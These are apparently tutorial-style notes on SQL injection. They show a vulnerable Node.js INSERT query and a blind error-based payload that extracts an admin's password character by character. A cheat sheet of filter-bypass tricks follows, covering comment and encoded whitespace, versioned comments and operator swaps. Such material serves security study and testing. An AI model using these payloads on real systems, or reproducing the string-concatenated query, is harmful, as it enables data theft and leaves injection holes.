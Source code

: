 ```js
 const query = `INSERT INTO reviews (product_id, rating) 
VALUES ('${productId}', ${rating})`;
```

the develepor thought that an insert query cant be exploited so he didnt care,but is it really unexploitable? 
since the rating have to be a nulber between 1 and 5,we will use the productId for our exploit since it doesnt have any constraints
to complete the query successfully the payload should be something like :
```sql
',2)-- -
```
the "2" represents the "rating field" as it has to be specified and we have to close the values () with a ")" and comment the rest of the code 
the payload we are going to use 
```sql
' , (SELECT IF(SUBSTRING(password,1,1)='a', 1, 1/0) FROM users WHERE username='admin')) -- -
```
# SQL Filter Bypass Techniques

---

## 1. White Space Manipulation
- **Basic Bypass**:  
  `?id=1/*comment*/AND/**/1=1/**/--`  
  `?id=1%09AND%0A1=1%20--` (URL-encoded whitespace: `%09`, `%0A`, `%20`)  
- **Conditional Comments**:  
  `?id=1/*!12345UNION*//*!12345SELECT*/1--`  
- **Parentheses**:  
  `?id=(1)and(1)=(1)--`

---

## 2. Function/Operator Substitution
| **Standard**          | **Bypass**                      |
|-------------------------|----------------------------------|
| `SUBSTR('SQL',1,1)`     | `SUBSTR('SQL' FROM 1 FOR 1)`     |
| `=`                     | `LIKE`, `REGEXP`, `BETWEEN`      |
| `>`                     | `NOT BETWEEN 0 AND X`            |
| `WHERE`                 | `HAVING`                         |
| `AND`                   | `&&`                             |
| `OR`                    | `||`                             |
| `SELECT`                | `EXEC`, `VALUES` (context-based) |

---
